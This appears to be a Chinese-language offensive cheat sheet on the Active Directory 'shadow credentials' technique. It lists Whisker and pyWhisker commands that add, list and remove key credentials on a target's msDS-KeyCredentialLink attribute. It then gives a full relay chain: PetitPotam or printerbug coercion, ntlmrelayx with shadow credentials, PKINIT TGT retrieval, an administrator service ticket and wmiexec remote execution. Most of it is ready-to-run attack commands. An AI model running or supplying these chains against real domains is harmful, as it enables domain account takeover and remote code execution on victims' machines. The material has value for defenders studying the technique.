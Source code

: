 	将密钥凭据添加到目标用户/计算机对象的属性msDS-KeyCredentialLink，然后使用 PKINIT 作为该帐户执行 Kerberos 身份验证，以获取该用户的 TGT
	要求：
	Windows Server 2016 上的域控制器
	PKINIT Kerberos 身份验证
	具有写入msDS-KeyCredentialLink目标对象属性的委托权限的帐户
	Windows中使用https://github.com/eladshamir/Whisker
	列出目标对象的 msDS-KeyCredentialLink 属性的所有条目
	>Whisker.exe list /target:computername$
	生成一个公钥-私钥对并向目标对象添加一个新的密钥凭证，就像用户从新设备注册到 WHfB 一样。
	>Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
	>Whisker.exe add /target:computername$ [/domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1]
	从由 DeviceID GUID 指定的目标对象中删除密钥凭据。
	>Whisker.exe remove /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /remove:2de4643a-2e0b-438f-a99d-5cb058b3254b
	Linux使用https://github.com/ShutdownRepo/pyWhisker
	>python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
	>pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"
	>python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename "test1"
	>python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id "a8ce856e-9b58-61f9-8fd3-b079689eb46e"
	场景：影子凭证中继
	DC01从(PetitPotam)触发 NTLM 身份验证
	将其中继到DC02(ntlmrelayx)
	EditDC01的属性创建一个 Kerberos PKINIT 预认证后门（pywhisker）
	或者 ：ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'
	设置 ntlmrelayx 将身份验证从目标工作站中继到 DC
	>proxychains python3 ntlmrelayx.py -t ldaps://dc1.ez.lab --shadow-credentials --shadow-target ws2\$ --http-port 81
	执行打印机错误以触发来自目标工作站的身份验证
	>proxychains python3 printerbug.py ez.lab/matt:Password1\!@ws2.ez.lab ws1@8081/file
	使用新获得的证书通过 PKINIT 获取 TGT
	>proxychains python3 gettgtpkinit.py ez.lab/ws2\$ ws2.ccache -cert-pfx /opt/impacket/examples/T12uyM5x.pfx -pfx-pass 5j6fNfnsU7BkTWQOJhpR
	获取目标账户的 TGS
	>proxychains python3 gets4uticket.py kerberos+ccache://ez.lab\\ws2\$:ws2.ccache@dc1.ez.lab cifs/ws2.ez.lab@ez.lab administrator@ez.lab administrator_tgs.ccache -v
	利用 TGS 进行未来的活动
	>export KRB5CCNAME=/opt/pkinittools/administrator_ws2.ccache
	>proxychains python3 wmiexec.py -k -no-pass ez.lab/administrator@ws2.ez.lab
